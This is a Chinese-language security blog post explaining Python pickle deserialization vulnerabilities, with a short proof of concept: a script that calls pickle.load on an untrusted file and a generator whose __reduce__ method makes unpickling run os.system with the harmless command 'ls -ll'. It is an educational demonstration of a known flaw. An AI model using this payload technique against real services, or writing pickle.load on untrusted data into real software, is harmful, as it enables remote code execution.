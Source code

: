 ```yaml
---
title: Python反序列化漏洞
date: 2018-05-18 10:35:21
categories: 安全
tags: 安全
---
```


## pickle 简介
pickle 提供了一个简单的持久化功能，可以将对象以文件的形式存放在磁盘上。pickle 模块只能在 python 中使用，python 中几乎所有的数据类型（列表，字典，集合，类等）都可以用 pickle 来序列化，pickle 序列化后的数据，可读性差，人一般无法识别。


### pickle.dump(obj, file[, protocol])
序列化对象，并将结果数据流写入到文件对象中。参数 protocol 是序列化模式，默认值为 0，表示以文本的形式序列化。protocol 的值还可以是 1 或 2，表示以二进制的形式序列化。

### pickle.load(file)
反序列化对象，将文件中的数据解析为一个 Python 对象。

## pickle 在 web 开发中的应用
在 web 开发中，pickle 一般用来解析 token 或者 session。假设一个网站（web 服务）是用 python 来写的，然后在数据库中存放着序列化的字符串，这些字符串可能是被用作 token 或者 session。当服务器上的 web 服务需要使用一个用户的 token 或者 session 的时候，首先要查库得到 token 或者 session，然后再将其反序列化为 python 对象。而 Picke 是可以执行 python 代码的。

## 漏洞原理演示

### 包含漏洞的代码 exploit_pickle.py

以下代码会反序列化 poc.pickle 文件（相当于上面提到的存在数据库中的 token 或者 session）。我们通过合理的构造一个 poc.pickle 文件，这个文件中包含我们想要执行的命令，就可以触发漏洞了，包含在 poc.pickle 中的命令会被执行。
```
# encoding: utf-8

import pickle
pickle.load(open('poc.pickle'))
```

### 构造 poc.pickle 文件 gen_poc_pickle.py

这里我们构造的 poc.pickle 文件里包含的命令为“ls -ll”，当上述包含漏洞的代码反序列化 poc.pickle 文件时，会执行“os.system("ls -ll")”。

```
import cPickle
import os

class exp(object):

    def __reduce__(self):
        ser = 'ls -ll'  # 在这里包含我们想要执行的命令
        return (os.system, (ser,))

if __name__ == '__main__':
    e = exp()
    ser = cPickle.dumps(e)
    print(ser)
```

执行以下命令得到 poc.pickle
```
python gen_poc_pickle.py > poc.pickle
```

### 执行漏洞程序
执行漏洞程序，poc.pickle 文件被反序列化，我们的命令也被执行了。
```
python exploit_pickle.py
```
## 参考
[掌阅iReader某站Python漏洞挖掘](https://www.leavesongs.com/PENETRATION/zhangyue-python-web-code-execute.html)
[Python Pickle的任意代码执行漏洞实践和Payload构造](http://www.polaris-lab.com/index.php/archives/178/)

